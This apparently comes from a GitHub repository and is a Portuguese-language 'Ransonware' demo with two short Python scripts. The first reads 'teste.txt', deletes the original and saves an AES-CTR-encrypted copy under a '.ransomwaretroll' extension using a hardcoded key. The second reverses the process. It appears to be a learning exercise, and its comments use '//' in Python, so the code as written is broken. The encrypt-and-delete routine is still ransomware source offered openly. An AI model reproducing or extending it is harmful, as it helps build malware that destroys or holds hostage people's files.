 # Ransonware
# SCRIPT PARA ENCRYPTAR DOC DE .TXT 

import os
import pyaes

//abrir o arquivo a ser criptografado

file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

//remover o arquivo

os.remove(file_name)

//chave de criptografia

key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

//criptografar o arquivo

crypto_data = aes.encrypt(file_data)

//salvar o arquivo criptografado

new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

## SCRIPT PARA DESCRYPTAR DOC DE .TXT 

import os
import pyaes

// abrir o arquivo criptografado

file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

//chave para descriptografia

key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

// remover o arquivo criptografado

os.remove(file_name)

// criar o arquivo descriptografado

new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
